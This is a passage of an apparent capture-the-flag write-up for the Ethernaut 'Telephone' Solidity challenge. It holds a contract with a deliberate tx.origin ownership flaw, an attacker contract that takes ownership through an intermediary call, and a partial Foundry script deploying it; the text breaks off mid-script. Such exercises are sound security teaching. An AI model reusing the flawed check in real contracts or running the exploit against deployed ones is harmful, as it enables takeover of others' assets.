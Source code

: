 This satisfies the condition and allows you to change ownership.

---

## 🛠️ Vulnerable Contract and Attack Contract

This is the `Telephone.sol`, which includes both the vulnerable contract and the attacker contract:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

// Attack Contract which claims the ownership of Telephone contract.
contract AttackTelephone {
    Telephone public target;

    constructor(Telephone _target) {
        target = _target;
    }

    function attackTel() public {
        target.changeOwner(msg.sender);
    }
}
```

---

## 🚀 Solution Script

This is the `TelephoneSolution.s.sol` script that deploys the attacker contract and triggers the vulnerability:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Telephone, AttackTelephone} from "../src/Telephone.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract TelephoneSolution is Script {

    Telephone public target = Telephone(0x913f6Bc2B694E7336896143a30Ee6A7D1FF73B28);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        // Deploy the AttackTelephone contract
        AttackTelephone attack = new AttackTelephone(target);
        console.log("Attack contract deployed owner: ", address(attack));
```